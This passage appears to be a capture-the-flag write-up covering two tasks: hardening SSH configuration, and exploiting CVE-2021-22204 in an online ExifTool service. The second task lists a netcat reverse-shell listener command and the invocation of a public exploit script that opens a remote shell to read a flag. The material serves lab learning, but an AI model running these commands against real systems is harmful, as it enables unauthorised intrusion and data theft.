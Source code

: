 ##### Solution

Solution here was to harden ssh authentication, disabling root login and password login for this server instead
adding public key authentication.

The solution was validated by an automated bash script in the CTF platform.

##### Steps

1. SSH into server `ssh -i id_rsa sysadmin@env263.target02 -p 2224`
2. `nano /etc/ssh/sshd_config` and add the following contents at the end of the file

```
PasswordAuthentication no
UsePAM no
PermitRootLogin no
PermitRootLogin prohibit-password
```

3. Restart server `/etc/init.d/ssh reload`
4. Add public key into `~/.ssh/authorized_keys`.

```bash
mkdir -p ~/.ssh && touch ~/.ssh/authorized_keys
chmod 700 ~/.ssh && chmod 600 ~/.ssh/authorized_keys
nano .ssh/authorized_keys 
```

5. Then we made sure that we can't login as root and with password. Finally we submitted the task for assessment and it succeeded.

#### NEXIF

```md
DESCRIPTION
Test the security of this online ExifTool service.
QUESTION
Can you find the vulnerability and exploit it?
You can find the flag from the home folder.
<http://env263.target02:8082/>
```

##### Solution

Quick google search reveals to us that ExifTool is a free and open-source software program for reading, writing, and manipulating image, audio, video, and PDF metadata. By researching futher it was found out that for this ExifTool a widely known `CVE-2021-22204 Arbitraty Code Execution` can be used to gain access to the flag.

##### Steps

1. Google search the exploit: <https://github.com/UNICORDev/exploit-CVE-2021-22204>, download it by using `git` commands.
2. Launch a `netcat` utility reverse shell listener on `9001` port: `nc -lvnp 9001`
3. Launch a CVE exploit and specify IP address through `-s` flag: `python3 exploit-CVE-2021-22204.py -s 10.X.Y.Z 9001` (here the real IPv4 address is hidden on purpose).
4. Upload any file to the ExifTool service.
5. Shell exploit works - by looking inside `/home` folder a suspicious `/user1337` folder is found - inside it a `flag.txt` file can be seen. Retrieved flag from the file.

